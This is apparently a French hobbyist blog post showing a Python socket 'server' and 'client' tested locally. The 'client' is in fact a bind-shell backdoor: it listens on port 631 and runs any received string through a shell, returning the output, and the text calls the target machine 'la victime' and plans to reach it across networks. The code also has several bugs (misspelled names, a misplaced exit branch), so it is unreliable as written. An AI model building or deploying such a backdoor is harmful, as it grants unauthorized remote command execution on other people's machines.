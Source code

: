 ```yaml
---
layout: post
title: Serveur et client en Python
---
```


Voici un premier test, en local, d'une communication entre un serveur et un client en Python. Le but final étant de pouvoir les faire communiquer sur deux réseaux différents.

#### __Le serveur :__

```
#!/bin/env python

#--*-- coding:UTF-8 --*--

import socket
connexion = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
host = input("Ip : ")
port = int(input("Port : "))
connexion.connect((host, port))
print("The connection with {} is done.".format(host, port))
started = True

while started:
    choice = int(input(" [1] Command\n [2] Leave\n > "))
    if choice == 1:
        command = input(" Command : ")
        connexion.send(command.encode())
        retour = connexion.recv(1024).decode('latin1')
        print(retour)

        if choice == 2:
            connexion.send("exit")
            connexion.close()
            break
```

&nbsp;

#### __Le client :__

```

#!/bin/env python

#--*-- coding:UTF-8 --*--

import socket
import subprocess

connexion = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
host = ''
port = 631
connexion.bind((host,port))
connexion.listen(5)
connexion_client, infos_connexion = connexion.accept()
started = True

while started:
    rcv_cmd = connexion_client.recv(1024)
    rcv_cmd = rcv_cmd.decode()
    if rcv_cmd != "exit":
        cmd = subprocess.Popen(rcv_cmd, shell=true, stdout = subprocess.PIPE, stderr =subprocess.PIPE, stdin = subprocess.PIPE )
        out = cmd.stdout.read() + cmd.sdterr.read()
        connexion_client.send(out)
    else:
        started = False
        conexion.close()
        exit
```


&nbsp;

Si j'execute le client avec la commande `python client.py`, voici le résultat :

![image_1](https://image.noelshack.com/fichiers/2019/37/3/1568187854-python1.jpg)


&nbsp;


Puis j'execute le serveur qui va me demander l'IP de la victime, le port à utiliser puis les commandes que nous voulons passer :

![image_2](https://image.noelshack.com/fichiers/2019/37/3/1568187978-python2.jpg)


Nous pouvons voir que la commande `ls` me permet de lister le contenu se trouvant sur mon bureau. Le prochain objectif sera d'améliorer ce script pour pouvoir l'éxecuter sur deux réseaux différents.
